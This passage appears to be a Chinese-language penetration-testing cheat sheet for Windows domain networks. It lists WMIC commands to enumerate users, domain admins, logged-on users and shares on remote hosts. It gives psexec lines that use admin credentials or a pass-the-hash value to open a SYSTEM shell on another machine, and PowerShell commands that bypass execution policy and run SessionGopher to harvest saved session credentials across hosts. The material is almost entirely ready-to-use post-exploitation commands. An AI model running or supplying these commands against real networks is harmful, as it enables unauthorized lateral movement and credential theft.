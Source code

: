 查询当前机器的用户及组信息
```
# wmic useraccount list brief /format:list
# wmic group list brief /format:list  
```

查询当前机器所有用户的详细信息
```
# wmic useraccount list brief
```

查询当前机器所有服务的详细状态
```
# wmic service list brief
```

查询指定域的域管有哪些
```
# wmic /node:rootkit path win32_groupuser where (groupcomponent="win32_group.name=\"adm\",domain=\"rootkit\"")
```

查看谁登陆过指定机器,适合用来找域管进程
```
# wmic /node:192.168.3.23 path win32_loggedonuser get antecedent
```

查询本机共享
```
# wmic share  get name,path,status
```

### \#0x03 使用pstools套件
```
# psexec /accepteula \\192.168.3.122 -u klionsec\administrator -p "admin!@#123" -s -c -f "cmd.exe"	弹回一个system权限的cmdshell
# psexec /accepteula \\192.168.3.23 -u klionsec\administrator -p lm:ntlm -s -c -f "cmd.exe"		适合03以下的系统 
```

### \#0x04 powershell相关

cmd命令行打开powershell脚本执行限制：
```
PowerShell -NoProfile -ExecutionPolicy Bypass -Command "& {Start-Process PowerShell -ArgumentList 'Set-ExecutionPolicy RemoteSigned -Force' -Verb RunAs}"
```

cmd命令行执行ps1文件（ps1文件中没有函数）：
```
powershell -file test.ps1
powershell -ExecutionPolicy Bypass -file test.ps1 
```

cmd命令行执行ps1文件中的函数（ps1文件中包含函数,session.ps1文件中的Invoke-SessionGopher函数）：
```
powershell -command "& { . "path\to\file.ps1"; function_name "参数1" "参数2" "参数3"}"
```
example:
```
powershell -command "& { . ".\session.ps1"; Invoke-SessionGopher "-iL host.txt" "-u domainname\username" "-p password"}"
```
